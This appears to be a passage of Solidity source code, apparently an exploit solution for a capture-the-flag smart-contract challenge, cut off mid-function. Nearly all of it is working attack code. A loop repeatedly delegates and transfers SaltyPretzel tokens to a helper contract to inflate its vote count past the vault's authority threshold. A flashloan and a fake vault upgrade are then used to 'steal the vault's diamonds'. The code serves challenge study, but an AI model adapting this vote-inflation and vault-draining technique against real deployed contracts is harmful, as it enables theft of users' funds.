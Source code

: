 ```solidity
        // Initialize challenge contracts
        setup = _setup;
        vault = setup.vault();
        saltyPretzel = setup.saltyPretzel();

        // Claim initial SaltyPretzel tokens
        setup.claim();
    }

    function exploit() public {
        // Create a contract contract to hoard votes
        VoteCollector voteCollector = new VoteCollector(setup);

        // Loop while VoteCollector has not enough votes
        while (saltyPretzel.getCurrentVotes(address(voteCollector)) < vault.AUTHORITY_THRESHOLD()) {
            // Add our votes to VoteCollector 
            saltyPretzel.delegate(address(voteCollector));

            // Set our delegatee to address(0)
            saltyPretzel.transfer(address(voteCollector), setup.SALTY_PRETZELS());
            saltyPretzel.delegate(address(0));

            // Regain our SaltyPretzel tokens
            saltyPretzel.transferFrom(address(voteCollector), address(this), setup.SALTY_PRETZELS());
        }

        // When VoteCollector has enough votes, steal the vault's diamonds
        voteCollector.stealDiamonds();
    }
}

contract VoteCollector {
    // Challenge contracts
    Setup public setup;
    Vault public vault;
    Diamond public diamond;
    SaltyPretzel public saltyPretzel;

    constructor(Setup _setup) {
        // Initialize challenge contracts
        setup = _setup;
        vault = setup.vault();
        diamond = setup.diamond();
        saltyPretzel = setup.saltyPretzel();

        // Allow the Exploit contract to transfer all of this contract's SaltyPretzel tokens
        saltyPretzel.approve(msg.sender, type(uint256).max);
    }

    function stealDiamonds() public {
        // Borrow a flashloan to temporarily set the vault's diamond balance to 0
        vault.flashloan(address(diamond), setup.DIAMONDS(), address(this));

        // After the vault is upgraded to FakeVault, transfer its diamonds to Setup
        FakeVault(address(vault)).transferDiamonds(address(setup));
    }

    function onFlashLoan(
        address,
        address,
        uint256,
```